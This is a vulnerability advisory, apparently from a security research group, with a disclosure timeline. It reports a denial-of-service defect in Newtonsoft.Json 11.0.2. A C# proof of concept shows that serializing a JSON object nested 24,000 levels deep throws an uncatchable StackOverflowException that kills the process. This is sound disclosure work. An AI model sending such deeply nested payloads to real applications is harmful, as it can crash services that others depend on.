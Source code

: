 ```yaml
---
layout: vuln
credit: gilm
timeline:
    - type: 'report'
      date: '2018-05-29'
      arg: 'Report to library owner through NuGet'
    - type: 'report'
      date: '2018-06-27'
      arg: 'Report directly to Newtonsoft'
    - type: 'deadline'
      date: '2018-09-25'
    - type: 'release'
      date: '2018-10-22'

product: Newtonsoft.Json
vulnerable: 
    - '11.0.2'
severity: 'medium'
alephid: ALEPH-2018004
date: '2018-10-22'
title: 'Applications that use Newtonsoft.Json might be exposed to DOS vulnerability'

---
```

A defect in Newtonsoft.Json (aka Json.NET) library might expose applications that use it to a DOS vulnerability.

Json.NET is the No.1 community package in terms of downloads (more than 150,000,000) in Nuget (package manager for .NET). It is used by many web applications as well as Desktop applications to handle Json - serialize, deserialize, etc. 

When using this library to serialize a highly nested JSON object, a StackOverflow exception is thrown.
This exception cannot be caught and it will immediately terminate the entire process (see our [blog post](/2018/09/13/StackOverflowException/)).

This library is not vulnerable by its own, but there might be a lot of scenarios where application that uses it become vulnerable due to this issue.

For example, application that gets JSON as an input and use this library to write it in a pretty format (Indented). In this case, if the input contains a highly nested JSON, the application process will terminate and the application will be unavailable.



## Proof Of Concept ##
Following is a sample program that demonstrate the issue:
```c
using System;
using System.IO;
using System.Linq;
using Newtonsoft.Json;
using Newtonsoft.Json.Linq;

namespace JsonTests
{
    class Program
    {
        static void Main(string[] args)
        {
            //Create a string representation of an highly nested object (JSON serialized)
            int nRep = 24000;
            string json = string.Concat(Enumerable.Repeat("{a:", nRep)) + "1" +
                          string.Concat(Enumerable.Repeat("}", nRep));

            //Parse this object (Parsing works well - no exception is being thrown)
            var parsedJson = JObject.Parse(json);
            
            using (var ms = new MemoryStream())
            using (var sWriter = new StreamWriter(ms))
            using (var jWriter = new JsonTextWriter(sWriter))
            {
                //Trying to serialize the object will result in StackOverflowException !!!
                parsedJson.WriteTo(jWriter);
            }

            //ToString throws StackOverflowException as well  (ToString is very unefficient - even for smaller payloads, it will occupy a lot of CPU & Memory)
            //parsedJson.ToString();

            //JsonConvert.SerializeObject throws StackOverflowException as well
            //string a = JsonConvert.SerializeObject(parsedJson);

        }
    }
}
```
